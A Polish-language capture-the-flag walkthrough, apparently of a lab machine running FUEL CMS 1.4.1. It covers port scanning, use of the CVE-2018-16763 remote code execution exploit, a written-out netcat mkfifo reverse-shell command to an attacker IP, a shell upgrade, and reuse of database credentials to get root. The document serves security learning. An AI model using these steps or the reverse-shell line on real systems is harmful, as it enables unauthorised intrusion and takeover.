## IP maszyny:
10.10.138.241

### Sprawdzanie połączenia
┌──(kali㉿kali)-[~]
└─$ ping -c 5 10.10.138.241                                                                                  
PING 10.10.138.241 (10.10.138.241) 56(84) bytes of data.
64 bytes from 10.10.138.241: icmp_seq=1 ttl=63 time=143 ms
64 bytes from 10.10.138.241: icmp_seq=2 ttl=63 time=49.2 ms
64 bytes from 10.10.138.241: icmp_seq=3 ttl=63 time=83.2 ms
64 bytes from 10.10.138.241: icmp_seq=4 ttl=63 time=70.2 ms
64 bytes from 10.10.138.241: icmp_seq=5 ttl=63 time=57.2 ms

--- 10.10.138.241 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4040ms
rtt min/avg/max/mdev = 49.221/80.475/142.526/33.114 ms

### Skanowanie portów: 

┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC 10.10.138.241           
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-09-23 06:39 EDT
Nmap scan report for 10.10.138.241
Host is up (0.082s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds

### Sprawdzanie co jest pod podanym adresem IP: 







Dane do logowania mogą się też znajdować się w tym katalogu: 

"hange the database configuration found in **fuel/application/config/database.php** to include your hostname (e.g. localhost), username, password and the database to match the new database you created."



## Wyszukiwanie exploitów



Po analizie wyników wyszukiwania: 

https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-16763

https://www.exploit-db.com/exploits/50477

Wybieram: 

Fuel CMS 1.4.1 - Remote Code Execution (3) 





Zdobyłem shell'a teraz muszę zdobyć reverse shell. 
Na nowej karcie włączam nasłuch: 



Na poniższych stronach i trochę drogą prób i błędów udało mi się znaleźć działającą komendę: 

https://gist.github.com/sckalath/67a59eb4955f1f9aedde

https://saucer-man.com/reverse/?ip=10.8.128.242&port=4444

## rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.128.242 4444 >/tmp/f



Komendą jak z pokoju Thompson robię sobie lepszego shella:

### python3 -c 'import pty; pty.spawn("/bin/bash")'



Po przeszukaniu dostępnych folderów znajduję pierwszą flagę: 



Wchodzę do katalogu config o którym pisałem na początku i w pliku database.php są następujące informacje: 



Udało się zalogować na konto root i zdobyć drugą flagę: 



